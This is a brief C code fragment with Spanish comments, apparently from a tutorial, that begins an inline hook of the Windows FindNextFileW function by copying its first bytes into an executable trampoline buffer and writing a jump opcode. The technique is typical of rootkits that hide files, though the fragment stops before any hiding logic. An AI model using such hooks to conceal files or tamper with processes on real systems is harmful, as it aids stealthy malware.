

void Hookear()
{
DWORD ProteVieja; // Parametro para VirtualProtect
BYTE *DirFN; // La dirección en memoria de FindNextFileW
BYTE *DirYoFN; // La dirección en memoria de la función que remplaza a FindNextFileW
// –> HOOKEAMOS FINDNEXTFILEW (7 bytes)
// Obtenemos la dirección en memoria de FindNextFileW.
DirFN=(BYTE *) GetProcAddress(GetModuleHandle(“kernel32.dll”), “FindNextFileW”);
//Reservamos 12 bytes de memoria para nuestro Buffer
//FindNextFileW ocupa 7 bytes en la memoria, y necesitamos 5 más para poner nuestro salto alli estan los 12 bytes 
BufferFN=(BYTE *) malloc (12);
//Le damos todos los permisos a los 12 bytes de nuestro Buffer
VirtualProtect((void *) BufferFN, 12, PAGE_EXECUTE_READWRITE, &ProteVieja);
// Copiamos los 7 primeros bytes del api en el buffer
memcpy(BufferFN,DirFN,7);
BufferFN += 7;
// En los 5 bytes restantes…
// En el primero introducimos un jmp
*BufferFN=0xE9; //0xE9 es el codigo de operacion del jmp
}